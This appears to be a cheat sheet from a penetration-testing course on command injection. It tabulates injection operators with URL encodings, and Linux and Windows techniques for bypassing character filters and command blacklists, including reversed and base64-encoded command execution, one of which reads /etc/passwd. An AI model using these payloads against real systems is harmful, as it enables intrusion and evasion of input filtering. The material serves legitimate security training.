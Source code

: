 # Command Injections

## **Cheat Sheet**

The cheat sheet is a useful command reference for this module.

### Injection Operators

| **Injection Operator** | **Injection Character** | **URL-Encoded Character** | **Executed Command**                       |
| ---------------------- | ----------------------- | ------------------------- | ------------------------------------------ |
| Semicolon              | `;`                     | `%3b`                     | Both                                       |
| New Line               |                         | `%0a`                     | Both                                       |
| Background             | `&`                     | `%26`                     | Both (second output generally shown first) |
| Pipe                   | `\|`                    | `%7c`                     | Both (only second output is shown)         |
| AND                    | `&&`                    | `%26%26`                  | Both (only if first succeeds)              |
| OR                     | `\|\|`                  | `%7c%7c`                  | Second (only if first fails)               |
| Sub-Shell              | ` `` `                  | `%60%60`                  | Both (Linux-only)                          |
| Sub-Shell              | `$()`                   | `%24%28%29`               | Both (Linux-only)                          |

***

## Linux

### Filtered Character Bypass

| Code                    | Description                                                                        |
| ----------------------- | ---------------------------------------------------------------------------------- |
| `printenv`              | Can be used to view all environment variables                                      |
| **Spaces**              |                                                                                    |
| `%09`                   | Using tabs instead of spaces                                                       |
| `${IFS}`                | Will be replaced with a space and a tab. Cannot be used in sub-shells (i.e. `$()`) |
| `{ls,-la}`              | Commas will be replaced with spaces                                                |
| **Other Characters**    |                                                                                    |
| `${PATH:0:1}`           | Will be replaced with `/`                                                          |
| `${LS_COLORS:10:1}`     | Will be replaced with `;`                                                          |
| `$(tr '!-}' '"-~'<<<[)` | Shift character by one (`[` -> `\`)                                                |

***

### Blacklisted Command Bypass

| Code                                                         | Description                         |
| ------------------------------------------------------------ | ----------------------------------- |
| **Character Insertion**                                      |                                     |
| `'` or `"`                                                   | Total must be even                  |
| `$@` or `\`                                                  | Linux only                          |
| **Case Manipulation**                                        |                                     |
| `$(tr "[A-Z]" "[a-z]"<<<"WhOaMi")`                           | Execute command regardless of cases |
| `$(a="WhOaMi";printf %s "${a,,}")`                           | Another variation of the technique  |
| **Reversed Commands**                                        |                                     |
| `echo 'whoami' \| rev`                                       | Reverse a string                    |
| `$(rev<<<'imaohw')`                                          | Execute reversed command            |
| **Encoded Commands**                                         |                                     |
| `echo -n 'cat /etc/passwd \| grep 33' \| base64`             | Encode a string with base64         |
| `bash<<<$(base64 -d<<<Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==)` | Execute b64 encoded string          |

***

## Windows

### Filtered Character Bypass

| Code                    | Description                                                  |
| ----------------------- | ------------------------------------------------------------ |
| `Get-ChildItem Env:`    | Can be used to view all environment variables - (PowerShell) |
| **Spaces**              |                                                              |
| `%09`                   | Using tabs instead of spaces                                 |
| `%PROGRAMFILES:~10,-5%` | Will be replaced with a space - (CMD)                        |
| `$env:PROGRAMFILES[10]` | Will be replaced with a space - (PowerShell)                 |
| **Other Characters**    |                                                              |
| `%HOMEPATH:~0,-17%`     | Will be replaced with `\` - (CMD)                            |
| `$env:HOMEPATH[0]`      | Will be replaced with `\` - (PowerShell)                     |

***

### Blacklisted Command Bypass

<table><thead><tr><th width="371">Code</th><th>Description</th></tr></thead><tbody><tr><td><strong>Character Insertion</strong></td><td></td></tr><tr><td><code>'</code> or <code>"</code></td><td>Total must be even</td></tr><tr><td><code>^</code></td><td>Windows only (CMD)</td></tr><tr><td><strong>Case Manipulation</strong></td><td></td></tr><tr><td><code>WhoAmi</code></td><td>Simply send the character with odd cases</td></tr><tr><td><strong>Reversed Commands</strong></td><td></td></tr><tr><td><code>"whoami"[-1..-20] -join ''</code></td><td>Reverse a string</td></tr><tr><td><code>iex "$('imaohw'[-1..-20] -join '')"</code></td><td>Execute reversed command</td></tr><tr><td><strong>Encoded Commands</strong></td><td></td></tr><tr><td><code>[Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes('whoami'))</code></td><td>Encode a string with base64</td></tr><tr><td><code>iex "$([System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('dwBoAG8AYQBtAGkA')))"</code></td><td>Execute b64 encoded string</td></tr></tbody></table>
